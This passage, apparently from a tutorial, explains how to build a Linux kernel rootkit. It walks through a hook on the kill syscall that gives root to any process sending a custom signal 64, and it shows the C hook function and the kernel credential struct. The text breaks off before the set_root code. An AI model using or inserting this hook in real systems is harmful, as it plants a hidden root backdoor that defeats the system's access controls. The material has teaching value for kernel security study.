 -   For example, we should be running a PostgreSQL server in our system using the postgres  user. This is useful to prevent vulnerabilities escaping from the application, because it does not have access to resources hosted by other users.
    
## Main Task
`kill -signal_id pid` is a syscall that sends a signal to the process with pid. We often use it to kill a signal via `kill -9 pid` because 9 is the **`SIGKILL`** signal, as defined in [signal.h](https://github.com/torvalds/linux/blob/3e5e6c9900c3d71895e8bdeacfb579462e98eba1/arch/x86/include/uapi/asm/signal.h#L31).

In this part, we define a `signal_id` of our own, in this case it’s 64 (because the existing signals was only up to **32**, so we can choose some number out of that range) , and whenever our hook sees this signal, it’s going to set the `uid` to 0 (which is the root uid).
  
## Implementation
First, let's have a look at our hooking function:
```c
asmlinkage int hook_kill(const struct pt_regs *regs)
{
    void set_root(void);

    int sig = regs->si;

    if (sig == 64)
    {
        printk(KERN_INFO "rootkit: giving root...\n");
        set_root();
        return 0;
    }

    return orig_kill(regs);
}
```
There's a bit to unwrap here! First, we have `regs` of type `struct pt_regs` in as our only argument. For (64-bit) kernel version 4.17.0, syscalls only take in `struct pt_regs` that contains values of all register. 

Hence, in order to take out the desired arguments from this big struct of registers, we can take a look at [Linux Syscall Reference](https://syscalls64.paolostivanin.com/) to see which register corresponds to which argument. 
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd9JthzQt6FBkAdoOESJiAaZt8tg1-6TpXKDfvkyEZt2UoUi_ovUd-iFViP0ELz8fs5r96Rt1ZUqM6inKtarDmz9bgAY8yKOESG7b47QkNr6uqU9WsrnMa8jGjULC5Hi6ryUcZFgTRYcax6aLHAEOC0M_zJ?key=8gWUuztVdypWUJCrXgpmWzsr)**
For `sys_kill` it's `rsi` register is the one that holds the signal value!
Now when `sig` is 64, we would like to give the current process root privilege via calling `set_root`:
```c
if (sig == 64)
{
    printk(KERN_INFO "rootkit: giving root...\n");
    set_root();
    return 0;
}
```
In order to set root priviledge, we can alter the current process's credential, which is defined as follow in the kernel:
```c
struct cred {
    /* redacted */

    kuid_t      uid;    /* real UID of the task */
    kgid_t      gid;    /* real GID of the task */
    kuid_t      suid;   /* saved UID of the task */
    kgid_t      sgid;   /* saved GID of the task */
```